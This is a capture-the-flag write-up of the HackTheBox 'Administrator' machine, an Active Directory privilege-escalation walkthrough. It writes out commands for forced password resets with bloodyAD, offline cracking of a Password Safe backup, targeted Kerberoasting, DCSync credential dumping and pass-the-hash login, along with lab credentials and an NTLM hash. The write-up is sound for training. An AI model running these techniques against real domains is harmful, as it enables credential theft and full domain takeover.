 ```yaml
---
description: 'Username: Olivia Password: ichliebedich'
---
```


# 📦 Administrator

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

I quickly get a list of usernames:

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

And the groups on the domain:

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

the creds that were given to us have winrm rights so let's connect then we launch bloodhound python:

```
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.107.16
```

And start a bloodhound instance:

```
neo4j console
```

while launching our bloodhound collector we see a new host that we can add to hosts ->

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

and i launch bloodhound without root!!

I mark user olvia as owned and continue by looking at the node info of olivia and seeing she as First degree object control GenericAll over michael:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

and michael has ForceChangePassword over Benjamin:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Knowing this we can install bloodyAD and abuse those rights:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

```
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.129.107.16" set password "Michael" "Password1"
bloodyAD -u "Michael" -p "Password1" -d "Administrator.htb" --host "10.129.107.16" set password "Benjamin" "Password1"
```

I'll have to test this tool later on:

{% embed url="https://github.com/CravateRouge/autobloody" %}

Now we can confirm we have succesfully changed the password:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

So i restart my enumeration process with these credentials and end up connecting to an FTP instance with the creds of Benjamin

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After googling the extension, i found the tool pwsafe2john and used it to get a hash out of this file:

```
pwsafe2john Backup.psafe3 > backuphash.txt
john backuphash.txt
```

Which gave me password: `tekieromucho`

Then i started to look how to open the file:

{% embed url="https://installati.one/install-passwordsafe-kalilinux/#google_vignette" %}

Then i upload the file and see 3 users:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

I'm able to see the passwords just like that:

<figure><img src="../../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>

I quickly see which one is the path to follow:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2).png" alt=""><figcaption></figcaption></figure>

On bloodhound we see that emily has GenericWrite on Ethan:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

I start iff looking at some attack vectors:

{% embed url="https://www.thehacker.recipes/assets/DACL%20abuse%20mindmap.CnS4bNaY.png" %}

I try GetUserSpns but it does not work, then i find a tool from shutdown that tries to Set an SPN and abuse it for us:

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py" %}

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

i had the following problem: \[!] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great) that happens when the time difference between your **attacking machine** and the **Domain Controller (DC)** is too large (usually more than 5 minutes). so i had to sync my time with DC:

```
sudo ntpdate -u 10.129.107.16
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.129.107.16
```

Then i put my hash in a file and crack it with john and end up with `limpbizkit`

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

We are at the last step of this box i thing and we have DCsync rights on Administrator.htb so let's have fun:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption><p>secretsdump.py -outputfile 'dcsync.txt' administrator.htb/ethan:limpbizkit@10.129.107.16</p></figcaption></figure>

I can now do passthehash to get a session:

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

```
evil-winrm -i 10.129.107.16 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```

